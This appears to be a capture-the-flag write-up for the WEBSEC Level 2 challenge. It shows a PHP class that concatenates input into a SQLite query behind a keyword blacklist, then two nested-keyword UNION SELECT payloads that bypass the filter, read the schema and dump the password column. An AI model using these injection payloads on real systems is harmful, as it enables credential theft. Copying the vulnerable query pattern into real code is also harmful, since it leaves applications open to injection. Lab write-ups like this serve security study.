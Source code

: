 # WEBSEC Level 2


### Challenge description

Nothing fancy, with a twist

### Initial analysis
`class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);
        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);
        if ($users) {
            return $users;
        }
        return false;
    }
}`

### Walk through

STEP 1: `0 UNIUNIONON SELSELECTECT 1,sql FROFROMM sqlite_master-- `
OUTPUT: Other User Details: id -> 1 username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255)) (Columns)

STEP 2: `0 UNIUNIONON SELSELECTECT 1, GROGROUPUP_CONCAT(password) FROFROMM users-- `
OUTPUT: Other User Details: id -> 1 username -> WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}


### Flag

**FLAG**: `WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.